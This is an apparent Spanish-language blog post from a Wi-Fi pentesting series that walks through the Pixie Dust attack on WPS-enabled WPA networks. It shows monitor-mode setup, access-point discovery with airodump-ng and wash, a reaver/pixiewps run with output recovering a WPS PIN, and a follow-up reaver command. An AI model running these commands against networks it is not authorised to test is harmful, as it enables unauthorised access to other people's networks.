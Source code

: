 ```yaml
---
layout: post
title: "Wi-Fi Pentesting - Pixi Dust Attack against WPA with wps"
date: 2020-06-17 20:00:00 -0400
comments: true
categories: [security]
sitemap:
  lastmod: 2020-06-11
  priority: 0.7
  changefreq: 'monthly'
  exclude: 'yes'
---
```


En esta serie de post se abordan comandos usados en pruebas de penetración de redes Wi-Fi, esta publicación consiste en una recopilación de instrucciones para su estudio, y posibles soluciones a estas vulnerabilidades, de ninguna forma se pretende fomentar el uso indebido de estas técnicas.


Reaver
===

Reaver implementa un ataque de fuerza bruta contra Redes WIFI protegidas por WPS.

Colocamos la interfaz en modo monitor
```
airmon-ng start wlx9cefd5feecd8
```

Eso modifica la interfaz a wlan0mon, ahora escuchamos los AP disponibles
```
airodump-ng wlan0mon
```

además podemos usar el siguiente comando para ver cuales tienen wps habilitado.
```
sudo wash -i wlan0mon
```


```
sudo reaver -i wlan0mon -b 00:1C:DF:XX:XX:XX -vvv -K 1
```
de lo anterior los parametros indican
-i  Indicates interface
-b BSSID of the target AP
-v verbose ( arroja mayor detalle den el resultado )
-K Run pixiewps

vamos a ver algo parecido a esto
```
Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 00:1C:DF:XX:XX:XX
[+] Received beacon from 00:1C:DF:XX:XX:XX
[+] Vendor: RalinkTe
[!] Found packet with bad FCS, skipping...
[+] Associated with 00:1C:DF:XX:XX:XX (ESSID: ROUTERNAME )
[+] Associated with 00:1C:DF:XX:XX:XX (ESSID: ROUTERNAME )
[+] Associated with 00:1C:DF:XX:XX:XX (ESSID: ROUTERNAME )
executing pixiewps -e 6a1f2b7ffc26202481db0895e835594fcacb3a169ece821315218d9a706be6eabf135f8b7f2d1e52cb99f448676bc
ea3c282878e80d4d75c9bf0bb5eff81952839ec0049bfc3d1de4afef7711e8415dff1541031995e862e1329e26fd8b43ef69ba92227a0dc4b09
6693f43775d7c881e812102ee69fe3051f8bdfea8af653b0ff1c440fd7ff9bdf4afc48ed5d847f5c57e5ae16 -s 3d7de714bc47115baa5a541
 b426d194e627eb5f00e83d94e9036bc653fb0678a1a4e9e6684c70e31ac9c78c -a 13ace7cc64d0c095181f4b1ca3eda63bdf26aab43b132d
008d9c2835 -r 00d21b0131770b4a24852a54addd06690dcdff6c29fc2470e2d5d6c66e0b55b319e870d7632ce7999156acd895a4d97a5293d
796a02e483cb2e44644be99dc15a64a8f2bf8af4cbd4c568565aa78527418df506249edfef3d0ac8aa89b84b7f5b27f7fcb68281fe97625916d
7cfec98f88e2e22c24a5d739746264d5aefc38586166fbd80e3be768359b150b654b413255fb3117

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x98bb0b87
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     7b77b3a22257c680b1fa6ddb2634594d
 [*] PSK2:     fb4b457ea2fcda13a0cc999aa1c4a008
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  35160007

 [*] Time taken: 0 s 16 ms

```

Si se consigue el pin entonces hacemos   
```
reaver -i wlan0mon -b 00:1C:DF:XX:XX:XX -c 6 -S y -vvv -p 35160007
```